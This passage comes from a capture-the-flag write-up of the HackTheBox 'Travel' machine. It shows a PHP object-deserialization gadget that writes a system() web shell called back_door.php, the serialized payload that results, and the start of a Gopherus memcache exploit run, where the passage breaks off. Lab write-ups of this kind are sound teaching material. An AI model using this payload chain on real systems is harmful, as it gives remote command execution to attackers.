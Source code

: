 ```php
<?php
class TemplateHelper {

    public $file;
    public $data;
    
    public function __construct(string $file, string $data) {
        $this->init($file, $data);
    }
    public function __wakeup() {
        $this->init($this->file, $this->data);
    }
    private function init(string $file, string $data) {
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

$back_door = new TemplateHelper("back_door.php", "<?php system(\$_REQUEST[test]); ?>");

echo serialize($back_door);

?>
```

This PHP script [serializes](https://www.w3schools.com/PHP/func_var_serialize.asp) an instance of the class `TemplateHelper`, which will write a my backdoor to a file called `back_door.php` in the `/jobs/` folder after deserialization.

> Next, we need to set this payload as a value for the key `xct_4e5612ba079c530a6b1f148c0b352241` so that it is deserialized when the debug method is called.

```php
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php
                                                                                 1 ⨯
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}                                                                                                        

┌──(zweilos㉿kali)-[~/htb/travel]
└─$ Gopherus/gopherus.py --exploit phpmemcache

  ________              .__                                                                             
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                              
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                              
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                               
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                              
        \/       |__|        \/     \/                 \/                                               

                author: $_SpyD3r_$                                                                      

This is usable when you know Class and Variable name used by user

```